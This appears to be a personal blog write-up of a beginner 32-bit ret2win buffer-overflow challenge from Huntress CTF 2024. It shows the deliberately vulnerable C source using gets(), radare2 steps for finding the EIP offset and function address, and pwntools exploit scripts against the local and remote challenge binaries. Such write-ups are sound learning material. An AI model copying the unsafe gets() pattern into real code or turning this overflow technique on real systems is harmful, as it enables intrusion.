 ```yaml
---
title: "Huntress CTF 2024"
pubDate: 2024-11-18
description: "My first time actually playing real Binary Exploitation in a CTF because team HCS wanted me to start learning, unfortunately there were a few issues with this one challenge I solved, but it pushed me on the right track for learning Binary Exploitation."
tags:
  - ctf
  - pwn
---
```



## Baby Buffer Overflow - 32 bit

> _Can you command this program to where it cannot go?_\
> _To get the flag, you must somehow take control of its excecution._\
> _Is it even possible?_
>
> _Author: @aenygma_

<PostFileDownload name="2024-huntress-babybufov.zip" />

This is a simple ret2win beginner challenge on a 32 bit binary. This was the source code:

```c
#include <stdio.h>
#include <unistd.h>

//gcc -fno-pie -no-pie -Wno-implicit-function-declaration -fno-stack-protector -m32 babybufov.c -o babybufov

void target(){
    puts("Jackpot!");
    char* executable="/bin/bash";
    char* argv[]={executable, NULL};
    execve(executable,argv,NULL);
}

int vuln(){
    char buf[16];
    gets(buf);
    return 0;
}

int main(){
    setbuf(stdin,NULL);
    setbuf(stdout,NULL);
    puts("Gimme some data!");
    fflush(stdout);
    vuln();
    puts("Failed... :(");
}
```

When I first tried running it, I was hit with an error where I couldn't run the binary or even compile the binary. Turns out, I just had to install `gcc-multilib` and then I was able to compile a binary using the command mentioned in the source code.

After that, I followed [ir0nstone's](https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win) guide on ret2win. So after using a De-Brujin sequence and pasting it into radare2, I was able to obtain an offset to the EIP _(I didn't understand what an offset was doing back then... but now I do...)_, with these commands:

```
$ ragg2 -P 64 -r
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAV
```

```
[0xf7fa05b0]> dc
Gimme some data!
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAV
[+] SIGNAL 11 errno=0 addr=0x414b4141 code=1 si_pid=1095450945 ret=0
[0x414b4141]> wopO `dr eip`
28
```

With the offset, I needed to overwrite EIP with the return address of the target function, that I was able to find using radare2:

```
[0xf7f405b0]> afl
...
0x080491a6    1     65 sym.target
...
```

Using all the information found so far, I was able to create a script using pwntools:

```python
from pwn import *

p = process('./babybufov')
#p = remote('challenge.ctf.games', 31180)

payload = b'A' * (28)
payload += p32(0x080491a6)

log.info(p.clean())
p.sendline(payload)
p.interactive()
```

After pwning the local binary and being able to run `cat flag.txt`, I tried the remote but was given EOF. But as I realised, the function address I compiled using my device is different from the provided binary. Even though I wasn't able to execute the given binary, I was still able to extract function addresses using an objdump:

```
$ objdump -t babybufov | grep target
080491f5 g     F .text  00000041 target
```

Using this knowledge, the final payload became:

```python
from pwn import *

#p = process('./babybufov')
p = remote('challenge.ctf.games', 31180)

payload = b'A' * (28)
payload += p32(0x080491f5)

log.info(p.clean())
p.sendline(payload)
p.interactive()
```

Using this payload, I was able to successfully pwn the remote connection to retrieve the flag!

![Image of terminal where I was able to get the flag](../../images/2024/huntress-ctf-1.png)
